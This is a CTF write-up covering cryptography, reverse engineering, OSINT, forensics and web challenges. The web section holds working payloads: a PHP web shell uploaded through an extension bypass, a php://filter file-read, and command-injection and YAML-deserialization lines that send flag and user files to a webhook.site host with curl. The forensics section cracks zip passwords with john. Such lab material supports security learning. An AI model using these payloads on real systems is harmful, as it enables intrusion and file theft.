

# Welcome

SANITY-CHECK:- 



flag is found on the discord

# Cryptography

## Feed

by using the cipher identifier feature on dcode we can try all the ciphers it tells us this could be 

and we try this Spoon language which gives us our flag


## Nine

just searching for $9$ hash on google we can find this website

[https://www.m00nie.com/juniper-type-9-password-tool/](https://www.m00nie.com/juniper-type-9-password-tool/)

we can use this site to decode the cipher text we were given 

# Reverse Engineering

## Breaker

we are given an android backup file

[https://github.com/nelenkov/android-backup-extractor](https://github.com/nelenkov/android-backup-extractor)

we use this to extract the files from our backup file

```python
java -jar .\abe-62310d4.jar unpack .\CodeBreakerX\Mis5\AndroidBackup.ab extracted_backup.tar
```

untar the file now we have some files to look at

looking through the pictures in the backup file


we find the one with the flag in the directory

AndroidBackup\shared\0\Pictures

## EnterpriseX

opening the binary in binary ninja

```python
004010c0    int32_t main(int32_t argc, char** argv, char** envp)

004010c0    {
004010c0        char* rax = getenv("USER");
004010d2        char* rbx = rax;
004010d2        
004010d8        if (!rax)
004010d8        {
00401172            char* rax_7 = getlogin();
00401177            rbx = rax_7;
00401177            
0040117d            if (!rax_7)
0040117d            {
00401188                puts(&data_402060);
0040118d                return 1;
0040117d            }
004010d8        }
004010d8        
004010e8        puts("EnterpriseX License Activation");
004010f7        printf("System User Detected: %s\n", rbx);
00401103        printf("Enter license key: ");
00401117        void buf;
00401117        fgets(&buf, 0x40, stdin);
0040112f        *(uint8_t*)(&buf + strcspn(&buf, "\n")) = 0;
00401133        void var_58;
00401133        sub_4012a0(rbx, &var_58);
00401133        
00401145        if (strcmp(&buf, &var_58))
0040116b            puts(&data_402042);
00401145        else
00401145        {
0040114f            printf(&data_4020a8, rbx);
00401156            sub_401310();
00401145        }
00401145        
0040115b        return 0;
004010c0    }
```

we can see the main function gets our system username and calculates the license key based on that

```python
004012a0    int64_t sub_4012a0(char* arg1, char* arg2)

004012a0    {
004012a0        uint64_t rax = strlen(arg1);
004012b4        int32_t rdx;
004012b4        
004012b4        if (!rax)
00401300            rdx = 0;
004012b4        else
004012b4        {
004012b6            char* i = arg1;
004012bc            rdx = 0;
004012bc            
004012d5            do
004012d5            {
004012c0                int32_t rcx_1 = (int32_t)*(uint8_t*)i;
004012c3                i = &i[1];
004012cc                rdx = ROLD(rdx + rcx_1, 5) ^ 0xa5a5a5a5;
004012d5            } while (&arg1[rax] != i);
004012b4        }
004012b4        
004012f6        /* tailcall */
004012f6        return sprintf(arg2, "X-%08X", (uint64_t)((rdx ^ 0x1337beef) + 0xabcdef) ^ 0x42);
004012a0    }

```

this is the sub_4012a0 function that calculates our key so i just reimplemented this in python

 

```
def rol(val, r_bits, max_bits=32):
    return ((val << r_bits) & (2**max_bits - 1)) | (val >> (max_bits - r_bits))

def generate_license(username):
    rdx = 0
    for c in username:
        rdx = rol(rdx + ord(c), 5) ^ 0xa5a5a5a5

    result = ((rdx ^ 0x1337beef) + 0xabcdef) ^ 0x42
    return f"X-{result:08X}"

user = "jod"  
print("License Key:", generate_license(user))

```

got the key X-952FB795


## EnterpriseX 2

while this challenge can be solved using static analysis only 

this weird function in main

```python
00403e84    int64_t sub_403e84(void*** arg1, int64_t arg2)

00403e99        int32_t var_1c = 0
00403ea7        sub_4056ee(&var_1c)
00403eb9        QMainWindow::QMainWindow(arg1, arg2)
00403ec7        *arg1 = &data_407330
00403ed3        arg1[2] = &data_4074e8
00403edb        arg1[0xf].b = 0x13
00403ee3        *(arg1 + 0x79) = 0x37
00403eeb        *(arg1 + 0x7a) = 0x1a
00403ef3        *(arg1 + 0x7b) = 0x5d
00403efb        *(arg1 + 0x7c) = 3
00403f03        *(arg1 + 0x7d) = 0x27
00403f0b        *(arg1 + 0x7e) = 0x1e
00403f13        *(arg1 + 0x7f) = 0x18
00403f1b        arg1[0x10].b = 0xb
00403f26        *(arg1 + 0x81) = 0x1e
00403f31        *(arg1 + 0x82) = 0x46
00403f3c        *(arg1 + 0x83) = 0x5c
00403f47        *(arg1 + 0x84) = 0x17
00403f52        *(arg1 + 0x85) = 0
00403f5d        *(arg1 + 0x86) = 0x4c
00403f68        *(arg1 + 0x87) = 0xc
00403f73        arg1[0x11].b = 0
00403f7e        *(arg1 + 0x89) = 0x42
00403f89        *(arg1 + 0x8a) = 0x58
00403f94        *(arg1 + 0x8b) = 0x22
00403f9f        *(arg1 + 0x8c) = 0
00403faa        arg1[0x12] = "supersecret"
00403fbc        return sub_403fe4(arg1)

```

that seems to be setting up values on the stack 

and what seems to be like the key

i spent hours upon hours somehow trying to decode the flag from this

i even installed QT library to run the binary

in the end i did end up running it and even managed to see the stack and stuff for the program

but the solution was not in the binary and we had to message the mods with the writeup (they changed the description after i had approached them 😭)

all in all a good waste of 3-4 hours


## simple

running the program


it asks for an access code so lets reverse the logic for it

reversing main looks too complex there are many nested functions

After lots of searching this is the function that prints the


this is where the string printed at the starting is stored

```python
00403db1    int64_t sub_403db1()

00403dc7        sub_40172c(stdout, 0x13, &data_4044a0)
00403dd7        void* fsbase
00403dd7        
00403dd7        if (*(fsbase - 0x68) == 0)
00403de4            int64_t rax_1
00403de4            int64_t rdx_1
00403de4            rax_1, rdx_1 = sub_40192a(stdin)
00403de4            
00403df3            if (*(fsbase - 0x68) == 0)
00403df9                data_4071c0 = rax_1
00403e00                data_4071c8 = rdx_1
00403e00                
00403e0e                if (sub_403bd6(rax_1, rdx_1) != 0)
00403e24                    int64_t rax_3
00403e24                    int64_t rdx_2
00403e24                    rax_3, rdx_2 = sub_403c14(rax_1, rdx_1)
00403e24                    
00403e2d                    if (*(fsbase - 0x68) == 0)
00403e2f                        data_4071b8 = rdx_2
00403e3d                        data_4071b0 = rax_3
00403e44                        data_4071b8
00403e4b                        data_4071b0
00403e59                        int64_t rax_4
00403e59                        int64_t rdx_4
00403e59                        rax_4, rdx_4 = sub_403cb9(0x12, 0x404460)
00403e59                        
00403e62                        if (*(fsbase - 0x68) == 0)
00403e6e                            data_4071a0 = rax_4
00403e75                            data_4071a8 = rdx_4
00403e7c                            sub_403742(&data_4043f0, 1)
00403e8f                            sub_403d2f(0x12, 0x404460)
00403e8f                    
00403e94                    int64_t* rdi_3 = data_4071a8
00403e94                    
00403ea4                    if (rdi_3 != 0 && (*(rdi_3 + 7) & 0x40) == 0)
00403ea6                        j_sub_402787(rdi_3)
00403ea6                    
00403eab                    int64_t* rdi_4 = data_4071b8
00403eab                    
00403ebb                    if (rdi_4 != 0 && (*(rdi_4 + 7) & 0x40) == 0)
00403ebd                        j_sub_402787(rdi_4)
00403ebd                    
00403ec6                    if (*(fsbase - 0x68) == 0)
00403ec6                        goto label_403ec8
00403e0e                else
00403e1a                    sub_403742(&data_4043e0, 1)
00403ec8                    label_403ec8:
00403ec8                    int64_t* rdi_5 = data_4071c8
00403ec8                    
00403ed8                    if (rdi_5 != 0 && (*(rdi_5 + 7) & 0x40) == 0)
00403eda                        j_sub_402787(rdi_5)
00403eda        
00403ee0        return sub_403b8c() __tailcall

```

this looks like out main function sort of

sub_40192a this is the function that takes in stdin 

```python
00403bd6    uint64_t sub_403bd6(int64_t arg1, int64_t arg2)

00403bda        if (arg1 != 6)
00403bde            return 0
00403bde        
00403bdf        int64_t i = 1
00403be4        int32_t rax_1 = 0x12345678
00403be4        
00403bff        do
00403bee            int32_t rcx_2 = zx.d(*(arg2 + i + 7)) ^ rax_1
00403bf0            int32_t rax_2 = i.d * 0x11
00403bf3            i += 1
00403bf9            rax_1 = rax_2 ^ (rcx_2 * 0x1f)
00403bff        while (i != 7)
00403bff        
00403c10        uint64_t result
00403c10        result.b = modu.dp.d(0:rax_1, 0xffff) == 0xbeef
00403c13        return result

```

this is the function that validates the password

it checks for the length first then sets a hash 0x12345678

then iterates through the 6 characters of the input string

```python
h = ((i + 1) * 0x11) ^ ((ord(s[i]) ^ h) * 0x1f)
```

it does something like this to update the has in each iteration

after the loop the function checks if the lower 16 bits of the final hash are equal to 0xBEEF

had pretty much everything from here to crack the hash so i just told AI to write a solve script in python to mimic this

and viola

```python
import string
import time

# Pre-calculate the modular inverse of 0x1f modulo 2^32
inv_1f = pow(0x1f, -1, 2**32)

# Character set to test, based on typical password/flag characters
CHARS_TO_TEST = string.ascii_letters + string.digits + "!@#$%^&*()_+-=[]{}|;':,./<>?`~ "

def forward_step(i, char_code, prev_hash):
    """Computes one forward step of the hash."""
    term1 = (i + 1) * 0x11
    term2 = (char_code ^ prev_hash) * 0x1f
    return (term1 ^ term2) & 0xFFFFFFFF

def backward_step(i, char_code, next_hash):
    """Computes one backward step of the hash."""
    term1 = (i + 1) * 0x11
    k_i = next_hash ^ term1
    prev_hash_xor_char = (k_i * inv_1f) & 0xFFFFFFFF
    prev_hash = (prev_hash_xor_char ^ char_code) & 0xFFFFFFFF
    return prev_hash

def solve_password():
    """Cracks the password using a 4-2 meet-in-the-middle attack."""
    # --- Forward Pass (first 4 chars) ---
    print(f"Starting forward pass with |C|={len(CHARS_TO_TEST)}...")
    start_time = time.time()
    forward_map = {}
    h0 = 0x12345678
    
    for c0 in CHARS_TO_TEST:
        h1 = forward_step(0, ord(c0), h0)
        for c1 in CHARS_TO_TEST:
            h2 = forward_step(1, ord(c1), h1)
            for c2 in CHARS_TO_TEST:
                h3 = forward_step(2, ord(c2), h2)
                for c3 in CHARS_TO_TEST:
                    h4 = forward_step(3, ord(c3), h3)
                    prefix = c0 + c1 + c2 + c3
                    forward_map[h4] = prefix

    print(f"Forward pass finished in {time.time() - start_time:.2f}s. Map size: {len(forward_map)}")

    # --- Backward Pass (last 2 chars) ---
    print("Starting backward pass...")
    start_time = time.time()
    
    for high_bits in range(2**16):
        if high_bits % 1000 == 0:
            print(f"  ... progress: {high_bits}/{2**16}", end='\r')
            
        final_hash = (high_bits << 16) | 0xBEEF
        
        for c5 in CHARS_TO_TEST:
            h5 = backward_step(5, ord(c5), final_hash)
            for c4 in CHARS_TO_TEST:
                h4_candidate = backward_step(4, ord(c4), h5)
                
                if h4_candidate in forward_map:
                    prefix = forward_map[h4_candidate]
                    suffix = c4 + c5
                    password = prefix + suffix
                    print(f"\nSUCCESS! Password is: {password}")
                    return password
    
    print("\nFailed to find the password.")
    return None

if __name__ == '__main__':
    solve_password()
```


take to ascii code

realise its not ascii

take it to cyberchef

convert to hex stream

bruteforce xor key


and thats our flag!

## Ghost Payload

After analysing the file i created a python script to extract resource data from a Windows executable file (GhostPayload.exe) using the pefile.

```python
import pefile
pe = pefile.PE('GhostPayload.exe')
pe.parse_data_directories(directories=[pefile.DIRECTORY_ENTRY['IMAGE_DIRECTORY_ENTRY_RESOURCE']])
for res in pe.DIRECTORY_ENTRY_RESOURCE.entries:
    # Dump each resource entry to a file for inspection
    for sub in res.directory.entries:
        data_rva = sub.directory.entries[0].data.struct.OffsetToData
        size = sub.directory.entries[0].data.struct.Size
        data = pe.get_memory_mapped_image()[data_rva:data_rva+size]
        with open(f'resource_{res.name or res.id}_{sub.id}.bin', 'wb') as out:
            out.write(data)

```


# MISC

## COWARD!!

**Just run it with sudo lol**


## Warmup2


## Warmup3


## Ghost in the drive

using FTK Imager to view the img file we see one interesting piece of text

notes_1.txt

```python
'&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLhgfedcba`BA]VzZ<XW
POTSLp3210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\rqvutsrqponmf,ML
KJIHGFbD`Y^]\[ZSRv98T6RQPONMLEi,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^
]\[ZYXWVUTSRQPlkjihgfed]EaZ~^]VUZYXWPt76LQJONGFKJCg*)('&%A#?87<;:981U/.3,10/
(Lmlkjihgfedcba`_^]\[ZYXWVrqponPlejiba'HGc\[`_^]\[Tx;:9876543210/.-,+*)?>CBA
@?>=<5Y3210T.-210).-&Jkjihgfedcba`_^]\[ZYXWVUTSRnPlejibgf_^]#DZYX|?>Z<RQPUNS
RKoON0Fj-,+*)('CBA@?>=<;4Xyx0543210/.'Kl*)"FEf$#"!~w=^]\[ZYXWVUTSRQPONMLKJIH
GFEDCBA@?>=<;:9876543210/.-,+*)ED&BA@?>=<;:3WD

```

this is actually malbolge

we can run it in an online interpreter

to get the flag


# PWN

## INJECTME

my solution was quite simple just patch the binary 


right here where it checks if the data at data_404088 is INJECTME 


# Stegnography

## WarmUp

realise that its LSB by seeing the image in different rgb channels

ask mod for leads

get to know its iSteg tool that is supposed to be used for the LSB


## **Hidden Whispers**

Here we are given a Data file. After performing few operatiosn like exiftool and analysing it with chatgpt i came to know that this file has few changes in it so we just need to revert it back. And so i did.

```
printf '\x89PNG' | dd of=Data bs=1 seek=0 count=4 conv=notrunc
mv Data Data.png

```

After performing this command i checked the png and it had XXXX in its magic headers instead of IHDR so I just replaced XXXX to IHDR

`printf 'IHDR' | dd of=Data.png bs=1 seek=12 count=4 conv=notrunc`

and so I got the flag:


## **Looks Can Be Deceiving**

we were given hex we first convert it to ascii

then some base converts to get this


then after some observing we can see it is actually a qr code


using dcodes binary image tool we can easily convert this


# OSINT

## Tranformer

searching ethical-buddy on github i found his account

then from there i found his linkedin

then from there i saw this one video on his linkedin

[https://www.linkedin.com/posts/suryansh-deshwal-ethical-buddy_ethicalhacking-internship-connections-activity-7074242702564896768-KZY6?utm_source=share&utm_medium=member_desktop&rcm=ACoAAEmn-GwBo_DHIk0cH_lSpVRSSYRlOalwJ08](https://www.linkedin.com/posts/suryansh-deshwal-ethical-buddy_ethicalhacking-internship-connections-activity-7074242702564896768-KZY6?utm_source=share&utm_medium=member_desktop&rcm=ACoAAEmn-GwBo_DHIk0cH_lSpVRSSYRlOalwJ08)

at around 2:39mins left he has his terminal open from where we can almost make out his hostname

which looks like 

BUMBELLBEE 

confirming this with the name of the challenge i was pretty much sure that should be it

flag{BUMBELLBEE}

## SCH00L

reverse searching the image we can get this school name

nobel international academy 

going to google maps and scouting the area pretty much confirms this is the school we are working with

https://nobleinternationalacademy.com/mandatory-discloser/

find this site and go the mandatory discloser page we can see the principles name Ramkrishna shukla

but it was to be formatted like flag{ram_kirshna_shukla}

## Sabha

as we can see on the right we are in bihar

and searching for bihar vidhan sabha then scouting the  area manually i ended up here

[https://www.google.com/maps/@25.6037515,85.1149365,3a,75y,339.09h,105.95t/data=!3m7!1e1!3m5!1stlkldD6vgjYqJMKlLQuPgw!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D-15.950814965835107%26panoid%3DtlkldD6vgjYqJMKlLQuPgw%26yaw%3D339.0947089156359!7i13312!8i6656?entry=ttu&g_ep=EgoyMDI1MDYwNC4wIKXMDSoASAFQAw%3D%3D](https://www.google.com/maps/@25.6037515,85.1149365,3a,75y,339.09h,105.95t/data=!3m7!1e1!3m5!1stlkldD6vgjYqJMKlLQuPgw!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D-15.950814965835107%26panoid%3DtlkldD6vgjYqJMKlLQuPgw%26yaw%3D339.0947089156359!7i13312!8i6656?entry=ttu&g_ep=EgoyMDI1MDYwNC4wIKXMDSoASAFQAw%3D%3D)

then after a few attempts got this to submit

FLAG{25.6037_85.1149}

## Learn to fly

reverse image searching the image we can pretty much see what this incident was in many news article

I asked chatgpt to makeout the flag for me


but this did not work so i asked mod about more clarification about the challenge


then it was pretty clear that the flag was

flag{kz1907_sv763_349}

## **HUB**

where 8 rays meaning octa and sun meaning sol meet. (just fed the hint to chatgpt and it gave us this)


searching for OctaSol on github we found this


and there was a scoreboard in octasol website there, we can see ethical-buddy.

He is sitting at 9th place with 47270 points.

[https://octasol.io/leaderboard](https://octasol.io/leaderboard)


and so the flag is `flag{9_47270}`

## **Signals**

"A curious ham radio enthusiast tuning into a WebSDR stumbled upon a revolutionary design—the pa0rdt-Mini-Whip©, known for its unique frequency range.

Pair the frequency range it operates on with the callsign of its creator in the format: FLAG{range_callsign}. Can you decode the signal?"

🔍 Step 1: Who made the Mini-Whip? The Mini-Whip is a well-known active antenna.

It was invented by Roelof Bakker, and his callsign is PA0RDT.

📡 Step 2: What is the frequency range? From documentation and ham radio communities:

The pa0rdt Mini-Whip operates approximately in the range: 10 kHz to 30 MHz

This range covers:

VLF (Very Low Frequency): ~10 kHz

Up to HF (High Frequency): ~30 MHz

FLAG - `FLAG{10kHz-30MHz_PA0RDT}`

## **Temple run**

Here we have a picture of a temple, basically give it to chatgpt and he will analyse the image and tell us that its Kashi Vishwanath temple.

After that you have to sort the way you submit flag.

## Wellcome


After analysing a bit I noticed that at right side there is "Dr. Sandeep K jain" written.

So I went to Google maps and searched for "Dr. Sandeep K jain" and Also the I gave this image to other AI which is used for geogusser and it said that this image is somewhere from bihar. So I wrote Bihar in end to get precision.


# Forensics

## **The Silent Listener**


we first see alot of HTTP traffic so lets extract it 

and the zip file we have extracted is password protected so lets use

zip2john to extract the hash then crack it using rockyou.txt

little walkthrough

```python
zip2john upload.zip > hash.txt
ver 2.0 upload.zip/flag_protected/ is not encrypted, or stored with non-handled compression type
ver 2.0 upload.zip/flag_protected/flag.txt PKZIP Encr: cmplen=44, decmplen=32, crc=54C73B1D ts=B8F7 cs=54c7 type=0

cat hash.txt
upload.zip/flag_protected/flag.txt:$pkzip$1*1*2*0*2c*20*54c73b1d*2d*35*0*2c*54c7*7fe589e8ab38d83ceb947727bcb607743b0a64440c287a2725a7200ad520f15e9e7b886951108704df8e1e07*$/pkzip$:flag_protected/flag.txt:upload.zip::upload.zip

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
No password hashes left to crack (see FAQ)

john --show hash.txt
upload.zip/flag_protected/flag.txt:letmein:flag_protected/flag.txt:upload.zip::upload.zip
```

so the passowrd is letmein

extracting it we get the flag

flag{http_exfiltration_detected}

## Silent Corridor

we can see 4 TCP packets that have data


copying the data manually in notepad

we can see there is base64 data in the packets

cleaning it somewhat we get 

```python
UEsDBBQAAAAAAGm9mFoAAAAAAAAAAAAAAAASAAAAc2VnbWVudGVkX2ZsYWdfdjIvUEsDBBQAAQAAAGm9mFpx7MjsMQAAACUAAAAaAAAAc2VnbWVudGVkX2ZsYWdfdjIvZmxhZy50eHTOfaH6GXW8FHLNv5o9AN4y1SOuHemggoX0ONCJa1Q8OkWm2N7fWr3iFTc8zGOAL0ucUEsBAj8AFAAAAAAAab2YWgAAAAAAAAAAAAAAABIAJAAAAAAAAAAQAAAAAAAAAHNlZ21lbnRlZF9mbGFnX3YyLwoAIAAAAAAAAQAYAKy724xEtdsBw+LijES12wGGBtGMRLXbAVBLAQI/ABQAAQAAAGm9mFpx7MjsMQAAACUAAAAaACQAAAAAAAAAIAAAADAAAABzZWdtZW50ZWRfZmxhZ192Mi9mbGFnLnR4dAoAIAAAAAAAAQAYAMPi4oxEtdsB87cejUS12wEAvIAfFrXbAVBLBQYAAAAAAgACANAAAACZAAAAAAA=
```


converting it into a file then downloading it

then  cracking the pass with zip2john again

password - mickeymouse

after unzipping

```python
cat segmented_flag_v2/flag.txt
flag{multipart_exfiltration_mastered}
```

## **Data Drip**

we can filter right away see base64 encoded data in the 

```bash
 tshark -r capture.pcapng -Y "dns.qry.name" -T fields -e dns.qry.name \
| cut -d'.' -f1 \
| sort -u \
| while read line; do
    decoded=$(echo "$line" | base64 -d 2>/dev/null)
    if [[ $? -eq 0 && "$decoded" =~ ^[[:print:]]+$ ]]; then
        echo "$decoded"
    fi
```

can use this simple one liner to decode this base64 data 

then we can see fragments of the flag everywhere

combining them we get

flag{dn5_3xf1ltr4t10n_15_4_r34l_w0r1d_m3th0d_th4t_c4n_b3_h4rd_t0_d3t3ct}

# Web

## wavelength

```php
<?php system($_GET['cmd']); ?>
```

we can use this basic command to create a shell on the uplaods page

we uploaded our file as php.txt.jpg

as jpg extension was allowed

and it executed as php code

after which we found the flag in /opt/flag.txt

[https://cybersecure-x-wavelength.chals.io/uploads/php.txt.jpg?cmd=cat  ../../../../opt/flag.txt](https://cybersecure-x-wavelength.chals.io/uploads/php.txt.jpg?cmd=cat%20%20../../../../opt/flag.txt)

this was the final command to get the flag

FLAG{rce_filename_bypass_1337}

## Behind the scenes

first used this payload to get to the flag but

```php
https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/convert.base64-encode/resource=flag.php
```

PD9waHAKJGZsYWcgPSB0cmltKGZpbGVfZ2V0X2NvbnRlbnRzKF9fRElSX18gLiAnL3RoaXNfaXNfYV92ZXJ5X3NlY3JldF9oaWRkZW5fc3VwZXJfbG9uZ19yYW5kb21fbmFtZWRfZm9sZGVyX3h5ejEyMzQ1L2ZsYWcudHh0JykpOwppZiAoIWRlYnVnX2JhY2t0cmFjZSgpKSB7CiAgICBkaWUoIjxoMiBzdHlsZT0nY29sb3I6IHJlZDsnPj8/IERpcmVjdCBhY2Nlc3MgdG8gdGhpcyBmaWxlIGlzIGZvcmJpZGRlbiE8L2gyPiIpOwp9CmVjaG8gJGZsYWc7Cj8+Cg==

this is what i got

```php
<?php
$flag = trim(file_get_contents(__DIR__ . '/this_is_a_very_secret_hidden_super_long_random_named_folder_xyz12345/flag.txt'));
if (!debug_backtrace()) {
    die("<h2 style='color: red;'>?? Direct access to this file is forbidden!</h2>");
}
echo $flag;
?>
```

```php
https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/convert.base64-encode/resource=this_is_a_very_secret_hidden_super_long_random_named_folder_xyz12345/flag.txt
```

this is the final payload to get the flag

## namedropper

1. abc;curl [https://webhook.site/eddc0522-4baf-4931-ba79-a1b8195f41e0](https://webhook.site/eddc0522-4baf-4931-ba79-a1b8195f41e0) --data-urlencode x@/secret/flag.txt


## drink


## Misconfigured Vault

```php
!!python/object/apply:os.system ["curl -X POST -d \"$(cat /home/*/user.txt)\" https://webhook.site/eddc0522-4baf-4931-ba79-a1b8195f41e0"]

```

uploading this yaml configuration then going to webhook we get the flag


## **1984 Pt. 1**

This was an interesting challenge.

At first, I tried help and saw the features such LOGIN, PEEK, POKE , SYS DESTROY and so on.

So I started doing some functionality research and checked the source code.

From source code I came across two scripts:

/emulator.js

/login.mjs

And also found some main content.

```
(data (i32.const 65536) "-+   0X0x\00-0X+0X 0X-0x+0x 0x\00flag2.txt\00flag1.txt\00secret\00SYNTAX ERROR AT LINE %s\00r\00nan\00inf\00%d\00SYSLOG: HEXDUMP @0400 \e2\86\92 23 26 2f 2b 30 7a 29 70 70 26 24 70 3b\00rwa\00[INVALID MEMORY OVERRIDE]\00DESTROY\00HINT.TXT\00LOGIN.TXT\00PRINT\00RESET\00SECURITY.SYS\00INVALID ADDRESS\00INVALID CREDENTIALS\00PATCH.NOTES\00?SYNTAX ERROR\00DIR\00COMMANDS: LOGIN <user> <pass>, PEEK <addr>, POKE <addr> <val>, SYS DESTROY, DIR, PRINT <file>, LOAD <file>, HELP\00README.NFO\00ADMIN\00LOGIN\00NAN\00OK\00PEEK\00SECURITY.BAK\00SYSLOG.BAK\00SID.LOG\00CANNOT ACCESS FLAG\00INF\00INVALID ADDRESS OR VALUE\00POKE\00FILE NOT FOUND\00ACCESS DENIED\00SECURITY MODULE NOT LOADED\00LOAD\00MEMMAP.DOC\00DMP @0400: 41 44 4D 49 4E 3A 47 30 30 44 42 30 59\00NOTE: XOR 0x42 enforced.\0aSID left before clearing logs. May contain password strings.\00LOADED \22SECURITY.SYS\22,8,1\0aREADY.\00IT IS WAT IT IS.\00ERROR: FILE CORRUPTED. BLOCK CHECKSUM FAIL.\00SYSTEM REBOOTED... JUST KIDDING.\00SECURITY OVERRIDE KEY: XOR[49152...49159] == 0x42\0a# Obsolete. See PATCH.NOTES or ask SID.\00SECURITY LOCKDOWN ENGAGED. TERMINAL LOGGED.\00Welcome to PHOENIX.\0aIf you're reading this, you're already too late.\0aSID was last seen patching DESTROY in LOADER. But that was 1986.\00[ADMIN MEM POKE TRACE]\0aC000 \e2\86\92 25\0aC001 \e2\86\92 51\0aC002 \e2\86\92 187\0aC003 \e2\86\92 162\0a...\00(null)\00LOGIN.TXT\0a MEMMAP.DOC\0a SYSLOG.BAK\0a SECURITY.SYS\0a SECURITY.BAK\0a PATCH.NOTES\0a HINT.TXT\0a\00\19\00\0b\00\19\19\19\00\00\00\00\05\00\00\00\00\00\00\09\00\00\00\00\0b\00\00\00\00\00\00\00\00\19\00\0a\0a\19\19\19\03\0a\07\00\01\00\09\0b\18\00\00\09\06\0b\00\00\0b\00\06\19\00\00\00\19\19\19\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\0e\00\00\00\00\00\00\00\00\19\00\0b\0d\19\19\19\00\0d\00\00\02\00\09\0e\00\00\00\09\00\0e\00\00\0e\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\0c\00\00\00\00\00\00\00\00\00\00\00\13\00\00\00\00\13\00\00\00\00\09\0c\00\00\00\00\00\0c\00\00\0c\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\10\00\00\00\00\00\00\00\00\00\00\00\0f\00\00\00\04\0f\00\00\00\00\09\10\00\00\00\00\00\10\00\00\10\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\12\00\00\00\00\00\00\00\00\00\00\00\11\00\00\00\00\11\00\00\00\00\09\12\00\00\00\00\00\12\00\00\12\00\00\1a\00\00\00\1a\1a\1a\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\1a\00\00\00\1a\1a\1a\00\00\00\00\00\00\09\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\14\00\00\00\00\00\00\00\00\00\00\00\17\00\00\00\00\17\00\00\00\00\09\14\00\00\00\00\00\14\00\00\14\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\16\00\00\00\00\00\00\00\00\00\00\00\15\00\00\00\00\15\00\00\00\00\09\16\00\00\00\00\00\16\00\00\16\00\000123456789ABCDEFNo error information\00Illegal byte sequence\00Domain error\00Result not representable\00Not a tty\00Permission denied\00Operation not permitted\00No such file or directory\00No such process\00File exists\00Value too large for data type\00No space left on device\00Out of memory\00Resource busy\00Interrupted system call\00Resource temporarily unavailable\00Invalid seek\00Cross-device link\00Read-only file system\00Directory not empty\00Connection reset by peer\00Operation timed out\00Connection refused\00Host is down\00Host is unreachable\00Address in use\00Broken pipe\00I/O error\00No such device or address\00Block device required\00No such device\00Not a directory\00Is a directory\00Text file busy\00Exec format error\00Invalid argument\00Argument list too long\00Symbolic link loop\00Filename too long\00Too many open files in system\00No file descriptors available\00Bad file descriptor\00No child process\00Bad address\00File too large\00Too many links\00No locks available\00Resource deadlock would occur\00State not recoverable\00Previous owner died\00Operation canceled\00Function not implemented\00No message of desired type\00Identifier removed\00Device not a stream\00No data available\00Device timeout\00Out of streams resources\00Link has been severed\00Protocol error\00Bad message\00File descriptor in bad state\00Not a socket\00Destination address required\00Message too large\00Protocol wrong type for socket\00Protocol not available\00Protocol not supported\00Socket type not supported\00Not supported\00Protocol family not supported\00Address family not supported by protocol\00Address not available\00Network is down\00Network unreachable\00Connection reset by network\00Connection aborted\00No buffer space available\00Socket is connected\00Socket not connected\00Cannot send after socket shutdown\00Operation already in progress\00Operation in progress\00Stale file handle\00Remote I/O error\00Quota exceeded\00No medium found\00Wrong medium type\00Multihop attempted\00Required key not available\00Key has expired\00Key has been revoked\00Key was rejected by 